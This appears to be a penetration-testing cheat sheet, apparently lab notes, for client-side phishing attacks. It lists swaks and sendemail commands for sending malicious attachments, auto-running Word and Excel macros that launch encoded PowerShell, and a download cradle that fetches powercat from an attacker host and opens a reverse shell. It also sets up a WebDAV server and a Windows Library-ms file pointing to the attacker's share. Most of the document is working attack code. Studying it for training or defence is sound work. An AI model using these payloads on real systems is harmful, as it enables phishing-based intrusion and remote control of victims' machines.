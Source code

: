 ## swaks

```sh
swaks --to test@supermagicorg.com
      --from test@supermagicorg.com
      --server 192.168.234.199 
      --auth-user test@supermagicorg.com
      --auth-password test
      --port 25
      --header 'Subject: test'
      --body @body.txt
      --attach @Config.Library-ms
```

## Sendmail

```sh

$ sendemail -f 'jonas@localhost' \
            -t 'mailadmin@localhost' \
            -s 192.168.120.132:25 \
            -u 'Your spreadsheet' \
            -m 'Here is your requested spreadsheet' \
            -a bomb.ods
```



Leveraging Microsoft Word Macros

# Macro automatically executing powershell.exe after opening the Document
# Saving Document as .doc or  .docm to embed macro

Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"

End Sub


# PowerShell download cradle and PowerCat reverse shell
# To base64-encode our command
IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI/powercat.ps1');powercat -c $KALI -p 4444 -e powershell

https://www.base64encode.org/

# Python script to split the base64-encoded string into smaller chunks of 50 characters
# and concatenate them into the Str variable

str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')


# Macro invoking PowerShell to create a reverse shell
# Word
Sub AutoOpen()
    MyMacro
End Sub
# Excel
Sub Auto_Open() # Workbook_Open()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
    ...
    Str = Str + "A== " ← There is a blank here, it's strange !
    CreateObject("Wscript.Shell").Run Str
End Sub

set up a WebDAV

pip3 install wsgidav
/home/kali/.local/bin/wsgidav --host=$KALI --port=80 --auth=anonymous --root /home/kali/webdav/

Abusing Windows Library Files

# Visual Studio Code (VSC) config.Library-ms
# Windows Library Description code for connecting to our WebDAV Share

<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>